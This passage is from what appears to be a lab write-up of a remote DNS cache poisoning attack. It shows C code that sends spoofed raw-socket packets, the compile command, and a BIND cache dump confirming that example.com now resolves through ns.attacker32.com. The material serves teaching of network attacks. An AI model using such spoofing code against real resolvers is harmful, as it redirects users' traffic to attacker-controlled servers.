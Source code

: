 ```c
  // Step 1: Create a raw network socket.
  int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

  // Step 2: Set socket option.
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
       &enable, sizeof(enable));

  // Step 3: Provide needed information about destination.
  struct ipheader *ip = (struct ipheader *) buffer;
  dest_info.sin_family = AF_INET;
  dest_info.sin_addr = ip->iph_destip;

  // Step 4: Send the packet out.
  sendto(sock, buffer, pkt_size, 0,
       (struct sockaddr *)&dest_info, sizeof(dest_info));
  close(sock);
}
```

We then compile the C script by doing:

```
$ gcc -o attacker attack.c
```

And run the attack! After a small amount of time, we check the Local DNS server's cache to see whether the attack was successful or not. We can do that by dumping the DNS cache to a file and finding the word "attacker", because we know the attack was successful if there's a record indicating that the name server for `example.com` is `ns.attacker32.com`:

```
root@eca5daa85ebc:/volumes# rndc dumpdb -cache && grep attacker /var/cache/bind/dump.db
ns.attacker32.com.      615587  \-AAAA  ;-$NXRRSET
; attacker32.com. SOA ns.attacker32.com. admin.attacker32.com. 2008111001 28800 7200 2419200 86400
example.com.            777577  NS      ns.attacker32.com.
; ns.attacker32.com [v4 TTL 1787] [v6 TTL 10787] [v4 success] [v6 nxrrset]
```

And indeed that's what happens! Also, we can check the success of the attack by sniffing the packets going through the network and finding a packet whose destination is `10.9.0.153` that corresponds to the malicious DNS server. If this happens, it means that while the attack is being performed, the DNS queries for random domains are already being redirected to the `ns.attacker32.com` name server, meaning we were able to succeed:

<figure align="center">